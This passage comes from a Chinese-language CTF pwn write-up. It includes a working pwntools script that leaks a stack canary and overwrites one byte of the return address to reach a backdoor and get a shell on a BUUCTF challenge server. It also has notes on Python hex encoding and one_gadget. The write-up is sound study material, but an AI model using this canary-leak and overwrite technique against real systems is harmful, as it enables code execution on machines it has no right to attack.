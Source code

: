 ```
    else:
        p.interactive()
        break
```

考虑此题的特殊性，其实确实也可以不需要覆盖两个字节，因为本来的返回地址和后门函数的地址应该是在同一页上并且偏移相差不大（可能是因为函数比较少的原因，这部分底层知识我还不是很清楚），所以覆盖一个字节（0x3e）就可以打通（正如调试所见，只有低8bits不同），不需要爆破。不过爆破肯定是更一般的做法。

```
from pwn import *
context(arch = 'amd64', os = 'linux', log_level = 'debug')
p = remote('node3.buuoj.cn', 29528)
p.recvuntil("Input your Name:\n")
payload1 = b'a' * (0x30 - 8 + 1)
p.send(payload1)
p.recvuntil('a' * (0x30 - 8 + 1))
canary = u64(p.recv(7).rjust(8, '\0'))
print(hex(canary))
payload2 = b'a' * (0x30 - 8) + p64(canary) + b'aaaaaaaa' + p8(0x3e)
p.recvuntil("\n")
p.send(payload2)
p.interactive()
```

## 番外

做这题时，还想搞清楚python2里decode和encode的区别，也不知道到底搞清楚没

![image-20210411232903292](https://i.loli.net/2021/04/11/oUiWN3kHlEKtBuy.png)

如图，python2中decode("hex")将两个字符一起视作为十六进制，将'ff'decode后就是'\xff'，将'3738'decode后就是'\x37\x38'，也就是78，decode之后类型是字符串，u32/u64能对decode之后的字符串解包，也就是说能给u32/u64解包的是'\xff'这样的，而不是'ff'这样的

而，encode("hex")是将接收到的表示为十六进制的字节去掉'\x'，变成只有两个字符的字符串

![image-20210411233539353](https://i.loli.net/2021/04/11/nuVwqSLbzR5FZJ3.png)

另外，python中

rjust()返回一个原字符串**右对齐**,并使用指定字符填充至长度width的新字符串，如果指定的长度小于原字符串的长度则返回原字符串。str.rjust(width[, fillchar])

ljust()返回一个原字符串**左对齐**,并使用指定字符填充至长度width的新字符串，如果指定的长度小于原字符串的长度则返回原字符串。str.ljust(width[, fillchar])

## x_nuca_2018_gets（待解决）

**注：此题应在Ubuntu16.04下完成，在18.04下由于libc版本变化等各种原因，会导致某些相对偏移的变化**

```text
one-gadget是glibc里调用execve('/bin/sh', NULL, NULL)的一段非常有用的gadget。在我们能够控制ip的时候，用one-gadget来做RCE（远程代码执行）非常方便，一般地，此办法在64位上常用，却在32位的libc上会很难去找，也很难用。
```

先检查保护

![image-20210412190705373](https://i.loli.net/2021/04/12/zFr3Ch1fDBmeJ7R.png)
